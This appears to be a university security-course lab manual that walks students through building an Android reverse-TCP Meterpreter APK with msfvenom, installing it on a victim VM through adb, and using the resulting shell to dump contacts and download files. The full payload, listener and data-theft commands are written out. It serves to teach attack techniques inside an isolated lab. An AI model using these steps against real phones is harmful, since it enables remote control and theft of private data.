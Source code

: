 # Lab 7: Developing Mobile Malware

## Set-up


````{note}
In this lab, we need to set up two VMs: an attacker (Ubuntu 20.04) and a victim (Android 7.1.1), please make sure they are using the **same subnet**. On the attacker, all environments are pre-built in the Docker container: [yangzhou301/lab7:latest](https://hub.docker.com/r/yangzhou301/lab7), in which `/root/volume` is the shared folder between the host Ubuntu and the container. You should keep the output `tcp_reverse.apk` that is generated in this lab on your host VM for the further usage in Lab 6.
````

`````{tabbed} Attacker: Ubuntu

IP address: `10.9.0.6`

```{tip}
`10.9.0.6` is just an **example** in this manual, you have to determine your actual IP address by `ifconfig` command.
```

Pull the Docker image for this lab

```
$ docker pull yangzhou301/lab6
```

Open the folder for this lab and check if `volume` folder in it:

```
$ cd $HOME/lab7
# volume
```

Start the container using the shared `volume` and network with the host:

```
$ docker run --rm -it --network host -v $HOME/lab7/volume:/root/volume yangzhou301/lab7
```

It brings you to the `/bin/bash` at `/root` directory of the container.

`````

`````{tabbed} Victim: Android
IP address: `10.9.0.5`

```{tip}
`10.9.0.5` is just an **example** in this manual, you have to determine your actual IP address by `ifconfig` command after launching Terminal Emulator app.
```
Run the Android VM.

`````

## Explore Metasploit

[Metasploit](https://docs.rapid7.com/metasploit/) is a powerful Android penetration testing framework, which can be used to create some simple android malwares.

First, we search all modules in Metasploit to find out those modules for Android exploits.

```
$ msfconsole
msf >  search type:payload platform:android
```

We can see numerous exploits in Metasploit for hacking Android listed in the outputs. In this lab, we select the most commonly known and stable payload, "reversed TCP", to perform the hacking, which established TCP connection between the attacker and the victim and the attacker can get a reversed shell to control it. 

Create a reverse-TCP payload[^ex] `apk`

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.6 LPORT=4444 -f raw -o volume/reverse_tcp.apk
```

We can check `volume` (both on host and container) to see if it constructs successfully:

```
msf > ls volume
```

Then, send the generated `reverse_tcp.apk` to the vicitm Android VM and install it:

```
msf > adb connect 10.9.0.5
msf > adb install volume/reverse_tcp.apk
# disconnect to avoid noise in traffic monitor
msf > adb disconnect
```

````{warning}
If `adb` connect fails, please use `ifconfig` to check if the victim and the attacker share the same subnet. If they are, but `adb` reports error as "No route to host", and when you `ping` each other it gives the error message "Destination Network / Host unreachable", maybe some network interface created by other containers before occupies the ip address of gateway/router `10.9.0.1`, run

```
$ docker network prune
```

to remove them and retry `adb connect` command above.
````

Start a handler to listen on port 4444 of the attacker VM:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.9.0.6
msf > set lport 4444
msf > exploit
```

From the victim Android, we start the installed app `MainActivity`

![](main-activity.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the background.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Now, we get the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20210729033039.txt
```

If you want to view the dumped contacts information, exit `meterpreter` by `exit` and use `cat` to check:

![Dump all contacts information from the victim Android](contacts.png)

Then run `sessions -i 1` to restore the session.

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` from desktop home bar.


When starting an `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here are the packets that the TCP connection establishes and transfers some encoded data(Note that `10.9.0.6:4444` is the malicious host):

![](./establish.png)

```{important}
Don't delete the `reverse_tcp.apk` created in this lab, we will use it in the following labs.
```